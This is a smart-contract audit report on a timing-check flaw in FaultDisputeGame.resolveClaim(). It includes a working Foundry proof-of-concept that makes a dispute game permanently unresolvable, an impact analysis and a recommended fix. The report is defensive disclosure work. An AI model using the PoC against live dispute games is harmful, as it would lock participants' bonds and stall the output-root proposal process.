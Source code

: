 Hot Stone Peacock

high

# Incorrect time check in `FaultDisputeGame.resolveClaim()` allows dispute games to become unresolvable

## Summary

The time check in `FaultDisputeGame.resolveClaim()` incorrectly uses the parent clock's duration, allowing dispute games to become unresolvable by moving from a resolved claim.

## Vulnerability Detail

When resolving a claim with `FaultDisputeGame.resolveClaim()`, the function checks that the sum of the claim's duration and the time since the claim was made is greater than `GAME_DURATION / 2`:

[FaultDisputeGame.sol#L411-L416](https://github.com/sherlock-audit/2024-02-optimism-2024/blob/f216b0d3ad08c1a0ead557ea74691aaefd5fd489/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L411-L416)

```solidity
        // INVARIANT: Cannot resolve a subgame unless the clock of its root has expired
        uint64 parentClockDuration = parent.clock.duration().raw();
        uint64 timeSinceParentMove = uint64(block.timestamp) - parent.clock.timestamp().raw();
        if (parentClockDuration + timeSinceParentMove <= GAME_DURATION.raw() >> 1) {
            revert ClockNotExpired();
        }
```

This check is meant to ensure that users cannot resolve a claim that can still be disputed (i.e. `move()` can still be called on the claim). 

However, the check incorrectly uses the claim's duration instead of the duration of its parent. In `move()`, a claim expires when the sum of the **parent** claim's duration and the time since the claim was made is more than `GAME_DURATION / 2`:

[FaultDisputeGame.sol#L269-L284](https://github.com/sherlock-audit/2024-02-optimism-2024/blob/f216b0d3ad08c1a0ead557ea74691aaefd5fd489/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L269-L284)

```solidity
        // Compute the duration of the next clock. This is done by adding the duration of the
        // grandparent claim to the difference between the current block timestamp and the
        // parent's clock timestamp.
        Duration nextDuration = Duration.wrap(
            uint64(
                // First, fetch the duration of the grandparent claim.
                grandparentClock.duration().raw()
                // Second, add the difference between the current block timestamp and the
                // parent's clock timestamp.
                + block.timestamp - parent.clock.timestamp().raw()
            )
        );

        // INVARIANT: A move can never be made once its clock has exceeded `GAME_DURATION / 2`
        //            seconds of time.
        if (nextDuration.raw() > GAME_DURATION.raw() >> 1) revert ClockTimeExceeded();
```

For example, if a game tree has nodes `1 -> 2 -> 4 -> 8`, node 8 only expires when the (duration of node 2) + (the time since node 8 was created) exceeds `GAME_DURATION / 2`. However, the check in `resolveClaim()` calculates the (duration of node 4) + (the time since node 8 was created).

This allows an attacker to move from a claim _after_ it has been resolved, which will cause the dispute game to become unresolvable. For example:
- Assume that `GAME_DURATION` is 7 days, which means `GAME_DURATION / 2` is 3.5 days.
- The current game tree (w.r.t to [this diagram](https://specs.optimism.io/experimental/fault-proof/stage-one/fault-dispute-game.html#game-tree)) is:
  - Node 1 (created on day 0) has a duration of `0 days`.
  - Node 2 (created on day 2) has a duration of `2 days`.
  - Node 4 (created on day 3) has a duration of `1 days`.
  - Node 8 (created on day 4) has a duration of `3 days`.
- The current time is day 6.
- Attacker calls `resolveClaim()` on node 8:
  - `parentClockDuration + timeSinceParentMove = 3 + 2 = 5 days`
  - `5 days > GAME_DURATION / 2`, so node 8 is resolved.
- Attacker calls `move()` on node 8 to create node 16:
  -  `nextDuration = grandparentClockDuration + timeSinceParentMove = 1 + 2 = 3 days`
  - `nextDuration < GAME_DURATION / 2`, so node 16 is created.
- When attempting to resolve the dispute game from bottom up:
  - Node 16 is resolved without issue.
  - Calling `resolveClaim()` on node 8 [reverts since it has been resolved before](https://github.com/sherlock-audit/2024-02-optimism-2024/blob/f216b0d3ad08c1a0ead557ea74691aaefd5fd489/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L697).
  - Calling `resolveClaim()` on node 4 [reverts since node 8 has a subgame](https://github.com/sherlock-audit/2024-02-optimism-2024/blob/f216b0d3ad08c1a0ead557ea74691aaefd5fd489/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L445-L446).

Therefore, the dispute game becomes unresolvable since node 4 can never be resolved. 

The following PoC demonstrates the example above:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.15;

import "src/libraries/DisputeTypes.sol";
import "src/libraries/DisputeErrors.sol";
import { FaultDisputeGame } from "src/dispute/FaultDisputeGame.sol";
import { FaultDisputeGame_Init } from "test/dispute/FaultDisputeGame.t.sol";

contract FaultDisputeGame_Test is FaultDisputeGame_Init {
    function test_dispute_game_can_deadlock() public {
        // Create FaultDisputeGame with GAME_DURATION = 7 days
        Claim dummyClaim = Claim.wrap(bytes32(0));
        super.init(dummyClaim, dummyClaim, 0x10);
        uint256 T = block.timestamp;

        // At T+2 days, create node 2 at challengeIndex 1
        vm.warp(T + 2 days);
        uint256 bondAmount = gameProxy.getRequiredBond(Position.wrap(2));
        gameProxy.attack{value: bondAmount}(0, dummyClaim);

        // At T+3 days, create node 4 at challengeIndex 2
        vm.warp(T + 3 days);
        bondAmount = gameProxy.getRequiredBond(Position.wrap(4));
        gameProxy.attack{value: bondAmount}(1, dummyClaim);

        // At T+4 days, create node 8 at challengeIndex 3
        vm.warp(T + 4 days);
        bondAmount = gameProxy.getRequiredBond(Position.wrap(8));
        gameProxy.attack{value: bondAmount}(2, dummyClaim);

        // At T+6 days, resolve node 8
        vm.warp(T + 6 days);
        gameProxy.resolveClaim(3);

        // Attack node 8, creating node 16 at challengeIndex 4
        bondAmount = gameProxy.getRequiredBond(Position.wrap(16));
        gameProxy.attack{value: bondAmount}(3, dummyClaim);

        // Warp to T+7 days, which is past GAME_DURATION. 
        // The game should be fully resolvable at this point
        vm.warp(T + 7 days + 1);

        // Resolve node 16
        gameProxy.resolveClaim(4);

        // Can't resolve node 8 as it was resolved before
        vm.expectRevert(ClaimAlreadyResolved.selector);
        gameProxy.resolveClaim(3);

        // Can't resolve node 4 as node 8 has a subgame
        vm.expectRevert(OutOfOrderResolution.selector);
        gameProxy.resolveClaim(2);
    }
}
```

## Impact

Any dispute game can be forced to become unresolvable. 

When this occurs, all participants in the dispute game lose their bonds as their claims cannot be resolved. In the example above, the claimants of nodes 1, 2 and 4 lose their bonds.

Note that the cost of this attack is cheap - the attacker only needs to create one additional claim, which was node 16 in the example. Furthermore, if the claim resolves in his favor (eg. node 16 is uncontested), he will get the bond back, effectively making this attack have no cost.

Therefore, an attacker can continuously perform this attack on many dispute games, effectively DOSing the output root proposal process and undermining the guardian's ability to blacklist and "rescue" individual dispute games.

## Code Snippet

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/f216b0d3ad08c1a0ead557ea74691aaefd5fd489/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L411-L416

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/f216b0d3ad08c1a0ead557ea74691aaefd5fd489/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L269-L284

## Tool used

Manual Review

## Recommendation

Consider modifying the check in `resolveClaim()` to use the grandparent clock's duration instead. For example:

```solidity
// Fetch the grandparent clock, if it exists.
// The grandparent clock should always exist unless the parent is the root claim.
Clock grandparentClock;
if (parent.parentIndex != type(uint32).max) {
    grandparentClock = claimData[parent.parentIndex].clock;
}

// INVARIANT: Cannot resolve a subgame unless the clock of its root has expired
uint64 grandParentClockDuration = grandparentClock.duration().raw();
uint64 timeSinceParentMove = uint64(block.timestamp) - parent.clock.timestamp().raw();
if (grandParentClockDuration + timeSinceParentMove <= GAME_DURATION.raw() >> 1) {
    revert ClockNotExpired();
}
```